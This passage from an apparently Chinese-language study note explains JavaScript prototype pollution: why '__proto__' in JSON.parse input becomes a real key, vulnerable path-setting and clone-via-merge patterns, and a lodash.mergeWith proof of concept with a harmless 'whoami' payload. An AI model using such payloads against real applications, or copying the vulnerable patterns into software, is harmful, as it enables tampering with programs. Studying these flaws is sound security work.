 原因是因为我们在`let o2 = {a: 1, "__proto__": {b: 2}}`创建o2时，实际的两个键名是`a, b`而不是`a, __proto__`，`__proto__`就不是一个key，自然也不会修改Object的原型（看起来很奇怪，但是就是这样

![image-20220414112407556](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220414112407556.png)

让它被认做一个键名需要修改一下创建o2的方式`let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')`

![image-20211216112520073](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211216112520073.png)

在JSON解析的情况下`__proto__`被认作是键名而不是原型，所以成功了

### 由传入参数定义对象属性

```js
function theFunc(object, path, value){
	object.path = value
}
```

如果`path`和`value`的值可以被我们指定，我们可以设定`path = "__proto__.myValue"`，之后指定`value`的值

具体操作可见后面的CVE-2019-10795(undefsafe)，lodash.set

### 对象`clone`操作

> *Prototype pollution can happen with API that clone object when the API implements the clone as recursive merge on an empty object. Do note that merge function must be affected by the issue.*

```js
function clone(obj){
	return merge({}, obj)
}
```

## 攻击实现

奈何不是很好归类，如果按攻击方式归类的话会出现重复的模块和不好分类的地方，呜呜呜呜呜呜，好乱

### 对象`merge`操作

#### lodash.mergeWith

类似lodash.merge，多接收一个参数customizer

```js
mergeWith(object, sources, [customizer]);
```

如果是undefined就跟merge一样了

```js
var lodash= require('lodash');
var payload = '{"__proto__":{"whoami":"Vulnerable"}}';

var a = {};
console.log("Before whoami: " + a.whoami);
lodash.mergeWith({}, JSON.parse(payload));
console.log("After whoami: " + a.whoami);
```

